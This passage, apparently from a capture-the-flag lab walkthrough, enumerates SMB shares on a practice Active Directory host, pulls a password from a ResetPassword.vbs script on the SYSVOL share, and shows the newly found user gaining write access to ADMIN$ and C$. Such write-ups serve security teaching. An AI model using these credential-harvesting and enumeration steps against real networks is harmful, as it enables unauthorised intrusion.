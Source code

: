 ```
smbmap -H $IP -u 'enterprise-core-vn' -p '***************'
```

```
[+] IP: 10.10.248.134:445       Name: 10.10.248.134                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

We have a new share that we can access. Let's log into it and see if there's anything useful.

### SYSVOL share

```
smbclient //$IP/SYSVOL --user=enterprise-core-vn%*************** 
```

```
smb: \vulnnet-rst.local\scripts\> get ResetPassword.vbs
```

```
strUserNTName = "a-whitehat"
strPassword = "***************"
```

We have obtained credentials for the user a-whitehat. Let's enumerate SMB once again using these credentials.

## Enumerating

```
smbmap -H $IP -u 'a-whitehat' -p '***************'
```

```
[+] IP: 10.10.248.134:445       Name: 10.10.248.134                                     
[\] Work[!] Unable to remove test directory at \\10.10.248.134\SYSVOL\GWQIVRLEAJ, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ, WRITE     Logon server share 
        SYSVOL                                                  READ, WRITE     Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

